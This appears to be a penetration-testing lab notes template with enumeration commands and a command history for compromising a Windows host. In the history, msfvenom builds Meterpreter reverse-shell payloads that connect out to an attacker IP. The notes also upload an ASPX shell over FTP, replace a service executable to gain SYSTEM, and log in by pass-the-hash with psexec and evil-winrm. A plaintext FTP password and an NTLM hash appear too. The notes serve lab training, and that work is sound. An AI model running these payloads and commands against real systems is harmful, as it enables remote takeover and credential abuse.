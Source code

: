 # Navigation
- [Summary](#summary)
- [Flags](#flags)
- [Accounts](#accounts)
- [Enumeration](#enumeration)
    - [NMAP](#nmap)
    - [Local Users](#local-users)
    - [Local Groups](#local-groups)
    - [System Info](#system-info)
    - [Routes](#routes)
    - [Netstat](#netstat)
    - [Environment Vars](#environment-vars)
    - [Domain Controller Info](#domain-controller-info)
- [Services](#services)
    - [API Endpoints](#api-endpoints)
- [Command History](#command-history)
# Summary
-
# Flags    
`Get-ChildItem -Path C:\ -Recurse -ErrorAction SilentlyContinue -Include local.txt,proof.txt`
`sudo find / -type f -iname "local.txt" 2>/dev/null`    
`sudo find / -type f -iname "proof.txt" 2>/dev/null`
- C:\Users\Administrator\Desktop\proof.txt 
- C:\Users\j_local\Desktop\local.txt

# Accounts
### username / password
` `   
`whoami /priv`
```

```
`whoami /groups`
```

```
# Enumeration
## NMAP
`sudo nmap -sV 192.168.207.226 --top-ports 1000`
```
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```
`sudo nmap -A -T4 -p- <IP>`
```

```
## Local Users
`Get-LocalUser`
```

```
## Local Groups
`Get-LocalGroup`
```

```
## System Info
`systeminfo`
```

```
## Routes
`route print`
```

```
## Netstat
`netstat -ano`
```

```
## Environment Vars
`Get-ChildItem Env:`
```

```
## Domain Controller Info
`nltest /dsgetdc:medtech`
```

```
# Services    
## API Endpoints
`gobuster dir -u http://192.168.133.143:80/api/ -w /usr/share/seclists/Discovery/Web-Content/common.txt`
```

```

`gobuster dir -u http://192.168.133.143:80/api/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -b 403`
```
```

`ffuf -c -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://192.168.133.143/FUZZ`
```

```
`ffuf -c -w /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -u http://192.168.133.143/FUZZ`
```
```

# Command History
```c
ftp ftp_jp@192.168.148.226 -p 24621
pass: ~be<3@6fe1Z:2e8

// sudo msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.45.186 LPORT=7777 -f aspx -o aspx7777.aspx
// sudo msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.45.186 LPORT=445 -f aspx -o aspx445.aspx
// sudo msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.45.186 LPORT=443 -f aspx -o aspx443.aspx
sudo msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.45.185 LPORT=80 -f aspx -o rev80.aspx
// msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.186 LPORT=445 -f aspx -o rev445.aspx
// msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.186 LPORT=443 -f aspx -o rev443.aspx
// ftp upload in dir you drop into
put rev80.aspx

sudo msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set lhost 192.168.45.185; set lport 80; exploit"
//add 192.168.148.226    skylark.jp to /etc/hosts
http://skylark.jp:24680/rev80.aspx


// make another payload port 4444 in C:\Skylark\Development.exe
sudo msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.45.185 LPORT=4444 -f exe -o Development.exe
sudo msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.45.185 LPORT=4444 -f exe-service -o Development.exe
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.45.185
set LPORT 4444
run

powershell Restart-Service -name DevService

//migrate to new pid, shell dies otherwise
ps
migrate PID

whoami
//system





impacket-psexec -hashes 00000000000000000000000000000000:445414c16b5689513d4ad8234391aacf itwk04admin@192.168.148.226
evil-winrm -i 192.168.148.226 -u itwk04admin -H 445414c16b5689513d4ad8234391aacf
```